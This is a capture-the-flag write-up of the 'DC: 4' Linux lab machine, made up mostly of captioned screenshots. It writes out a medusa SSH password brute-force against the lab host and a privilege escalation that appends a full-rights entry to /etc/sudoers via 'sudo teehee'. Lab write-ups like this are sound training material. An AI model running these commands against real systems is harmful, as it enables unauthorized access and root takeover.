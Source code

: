 # DC: 4 - Writeup
![](https://img.shields.io/badge/-linux_machine-e67e00?style=for-the-badge&logo=linux&logoColor=white)

![start](https://github.com/adminush/Labs-Writeups/assets/58698274/cfefc713-131b-430f-8c67-bf90718e37ff)

![scan](https://github.com/adminush/Labs-Writeups/assets/58698274/d29f0030-b942-4322-b9ab-81a5ecec3f99)

![web](https://github.com/adminush/Labs-Writeups/assets/58698274/0de9bb63-1b65-4f9d-b3f1-1652913b155a)

![payload](https://github.com/adminush/Labs-Writeups/assets/58698274/e47b4e33-215f-468e-84d6-c7b09d865393)

![brute-log](https://github.com/adminush/Labs-Writeups/assets/58698274/bd30378e-4c8e-4c0e-a7d2-e93e610861d9)

![panel](https://github.com/adminush/Labs-Writeups/assets/58698274/677508f2-f491-4441-8c9f-54856c4c31df)

![function](https://github.com/adminush/Labs-Writeups/assets/58698274/d010bbdf-9870-4a08-97be-6348940a83f6)

![payload2](https://github.com/adminush/Labs-Writeups/assets/58698274/317e7cbd-99aa-4eff-9ca7-5ae176f7db25)

![inject](https://github.com/adminush/Labs-Writeups/assets/58698274/399b110d-2fed-49d2-8868-ebf25e8eab6e)

![files](https://github.com/adminush/Labs-Writeups/assets/58698274/ab141a69-8b87-4858-8dc5-4457b8e65a2b)

![passwords](https://github.com/adminush/Labs-Writeups/assets/58698274/2bb52674-44cd-4766-863a-ebd362f9733e)

```
medusa -h 192.168.56.104 -u jim -P passwords.txt -M ssh -f -v 6
```
![brute-ssh](https://github.com/adminush/Labs-Writeups/assets/58698274/bd037268-5217-45e2-9cd1-133c685a7f8f)

![dir](https://github.com/adminush/Labs-Writeups/assets/58698274/1724271c-b540-4d09-b6d9-efe24668741a)

![elf](https://github.com/adminush/Labs-Writeups/assets/58698274/2cea8019-507e-46c7-beaa-7aa01b844b54)

![mail](https://github.com/adminush/Labs-Writeups/assets/58698274/276e6633-17d2-4377-8832-2f94fee71b34)

![new-user](https://github.com/adminush/Labs-Writeups/assets/58698274/9ae5c287-d550-4bc1-8476-ea37b137b4dc)

```
https://d00mfist1.gitbooks.io/ctf/content/privilege_escalation_-_linux.html

root    ALL=(ALL:ALL) ALL
```
![search-steps-for-escalation](https://github.com/adminush/Labs-Writeups/assets/58698274/b4b7ba65-d47e-4aca-806a-a068d53fe026)

```
echo "charles ALL=(ALL:ALL) ALL" | sudo /usr/bin/teehee /etc/sudoers
```
![escalation](https://github.com/adminush/Labs-Writeups/assets/58698274/762804b4-9762-40d7-913d-e3630a493d0a)




